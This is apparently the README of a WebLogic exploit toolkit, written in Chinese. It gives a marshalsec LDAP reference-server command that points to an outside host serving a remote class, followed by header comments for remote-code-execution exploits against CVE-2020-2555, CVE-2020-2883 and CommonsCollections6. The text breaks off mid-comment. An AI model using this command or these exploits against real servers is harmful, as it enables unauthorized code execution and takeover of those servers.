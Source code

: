 1. 启动 LDAP 服务

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://qch7ecs9e.bkt.clouddn.com/#PocServerClusterMasterRemote 1099
```

2. 配置 LDAP 地址：

![](./images/1.png)

#### CommonsCollections6

```
/**
 * Title: CommonsCollections6
 * Desc:
 * <p>
 *     攻击者可以通过 T3、IIOP 协议远程访问 Weblogic Server 服务器上的远程接口，传入恶意数据，从而获取服务器 权限并在未授权情况下远程执行任意代码。
 *     漏洞影响版本:
 *     Oracle WebLogic Server 10.3.6.0.0
 *     Oracle WebLogic Server 12.1.3.0.0
 * </p>
 * Date:2020/4/5 3:48
 * @version 1.0.0
 */
```

#### CVE-2020-2555

```
/**
 * Title: CVE-2020-2555
 * Desc:
 * <p>
 *     CVE-2020-2555
 *     Oracle Fusion 中间件 Oracle Coherence 存在缺陷，攻击者可利用该漏洞在未经授权下通过构造 T3、IIOP 协议请求，获取 Weblogic 服务器权限，执行任意命令。
 *     该漏洞主要是因为 com.tangosol.util.filter.LimitFilter#toString 触发。
 *     漏洞影响版本:
 *     Oracle Coherence 3.7.1.17
 *     Oracle Coherence & Weblogic 12.1.3.0.0
 *     Oracle Coherence & Weblogic 12.2.1.3.0
 *     Oracle Coherence & Weblogic 12.2.1.4.0
 *     github: https://github.com/0nise/CVE-2020-2555
 *     paper: https://www.r4v3zn.com/posts/975312a1/
 * </p>
 * Date:2020/3/31 21:31
 * @version 1.0.0
 */
```

#### CVE-2020-2883

```
/**
 * Title: CVE-2020-2883
 * Desc:
 * <p>
 *     CVE-2020-2883
 *     Oracle Fusion 中间件 Oracle Coherence 存在缺陷，攻击者可利用该漏洞在未经授权下通过构造 T3、IIOP 协议请求，获取 Weblogic服务器权限，执行任意命令。
 *     该漏洞主要为 CVE-2020-2555 基于 CommonsCollections2 （ExtractorComparator + PriorityQueue） 的绕过。
 *     漏洞影响版本:
 *     Oracle Coherence 3.7.1.17
 *     Oracle Coherence & Weblogic 12.1.3.0.0
 *     Oracle Coherence & Weblogic 12.2.1.3.0
```